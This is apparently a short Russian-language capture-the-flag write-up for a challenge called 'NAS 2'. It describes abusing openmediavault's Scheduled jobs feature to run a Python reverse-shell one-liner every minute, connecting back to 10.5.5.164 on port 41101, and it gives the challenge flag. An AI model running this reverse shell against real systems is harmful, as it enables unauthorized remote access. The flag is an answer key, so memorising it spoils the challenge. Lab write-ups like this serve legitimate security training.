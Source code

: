 # NAS 2

В openmediavault находим функцию Scheduled jobs, позволяющую выполнять по расписанию любые команды под любым пользователем. Туда же можно засунуть и команду для reverse-shell. Создаем правило на запуск команды `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.5.5.164",41101));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'` ежеминутно. Получаем reverse-shell, читаем флаг в корне, проявляем доброту к другим командам и не удаляем флаг

**Флаг:** `nto{4_l177l3_ch33ky_cv3}`